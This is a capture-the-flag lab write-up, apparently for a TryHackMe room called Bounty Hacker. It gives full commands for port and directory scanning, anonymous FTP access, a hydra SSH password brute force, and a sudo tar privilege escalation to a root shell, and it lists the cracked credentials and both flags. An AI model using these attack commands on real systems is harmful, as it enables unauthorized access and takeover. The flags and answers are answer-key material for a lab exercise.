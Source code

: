 # Task 1 - Living up to the title

### Find open ports on the machine

For this section we can run an nmap scan

sudo nmap -sV -sC -T5 -p- 10.10.33.13 -oN \~/Github/BountyHackerCTF/nmapscan.md

I also ran a gobuster scan to find any additional directories on the webserver.

gobuster dir -u http://10.10.33.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

From our nmap scan we can see that 3 ports are open 21,22,80 for ftp,ssh, and http

### Who wrote the task list?

Since we have the ftp port open we can try to log in as the anonymous user and see if there is anything useful.

ftp anonymous@IP

we are able to connect and we find 2 files on the ftp server, locks.txt and task.txt

we can get these files on our local machine by using get locks.txt and get task.txt

usng cat task.txt we can see that *lin* wrote the list

### What service can you bruteforce with the text file found?

when using cat locks.txt we can see it is a list of passwords, we can use this to bruteforce ssh since that is one of the other ports that is open
Answer: SSH

### What is the users password?

we can try bruteforcing the ssh password for lin with the following command

hydra -t 16 -l lin -P /home/bryce/Github/BountyHackerCTF/locks.txt ssh://IP

then we get the password: RedDr4gonSynd1cat3

### user.txt

After connecting to SSH with the credentials we had found

Username: lin
Password: RedDr4gonSynd1cat3

the user.txt file is present in the Desktop directory: THM{CR1M3_SyNd1C4T3}

### root.txt

Now that we are in the machine under the lin user we can run sudo -l to find what files we are able to run with sudo.

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

we get the above result, going to GTFObins we can see there is a command using tar as sudo to gain privlieged escalation

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

after running the above command we get the root shell

now we are able to navigate to the /root directory and there is a root.txt that has the following contents: THM{80UN7Y_h4cK3r}

We were able to log in to ftp using the anonymous user and use the information gained from that user to crack the password for user "lin". we then used the command sudo -l to see what files can be run as root for lin. We were able to run tar as root and used a command from GTFObins to gain a root shell.